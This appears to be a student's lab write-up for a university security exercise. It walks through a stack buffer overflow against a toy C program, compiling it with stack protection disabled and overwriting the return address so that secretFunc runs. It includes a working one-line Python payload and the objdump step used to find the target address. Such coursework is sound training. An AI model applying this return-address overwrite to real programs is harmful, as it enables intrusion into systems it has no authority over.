 # Lab bof1
Hà Quốc Tiến - 22110075<br>
## Target
- Make the `secretFunc()` run because of buffer-overflow.
## Solution
- Stack frames<br>
![bof1_1]()
- In order to run `secretFunc()`, we will have to change the Return Address of `the vuln()` to `secretFunc()` address. So that it will call `secretFunc()`<br>
- We can see in the stack frames, if we want to change the Return Address of `the vuln()`, we have to insert 204 bytes + the address of `secretFunc()`.
## Execution
1. Create `bof1.out` by using ` gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
![bof1_2]()
2. Get the address of the `secretFunc()`by using  `objdump -d bof1.out|grep secretFunc`.<br>
![bof1_3]()
3. Start buffer-overflow, Inserting 204 'a' + the address of `secretFunc()`. In this case is 0x0804846b.<br>
` echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')")| ./bof1.out 1`<br>
the 1 is for argv[1] to not be 0<br>
 ![bof1_4]()
- The lab is done